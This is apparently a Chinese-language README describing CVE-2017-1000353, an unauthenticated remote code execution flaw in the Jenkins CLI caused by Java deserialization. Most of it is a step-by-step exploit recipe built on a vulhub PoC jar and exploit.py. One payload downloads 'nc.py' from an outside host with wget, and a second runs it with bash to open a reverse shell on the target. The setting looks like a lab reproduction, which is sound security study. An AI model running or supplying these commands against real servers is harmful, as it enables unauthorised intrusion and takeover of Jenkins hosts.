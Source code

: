 # CVE-2017-1000353



## 一、漏洞描述

Jenkins 未授权远程代码执行漏洞, 允许攻击者将序列化的Java SignedObject对象传输给Jenkins CLI处理，反序列化ObjectInputStream作为Command对象，这将绕过基于黑名单的保护机制, 导致代码执行。

## 二、利用流程

1 对应环境为Jenkins远程代码执行漏洞(CVE-2017-1000353）

![](./1.png)

2 利用工具https://github.com/vulhub/CVE-2017-1000353

3 执行命令生成字节码文件，“ ”处填可反弹shell文件地址

```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "wget 1.1.1.1/nc.py -P /tmp"
```

4 发送数据包，执行命令，使文件下载到服务器

```
python exploit.py http://your-ip:8080 jenkins_poc.ser
```

![](./2.png)

5 生成字节码文件，“ ”处填写要执行的脚本

```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "/bin/bash /tmp/nc.py"
```

6 发送数据包，执行脚本

```
python exploit.py http://your-ip:8080 jenkins_poc.ser
```

7 可反弹shell

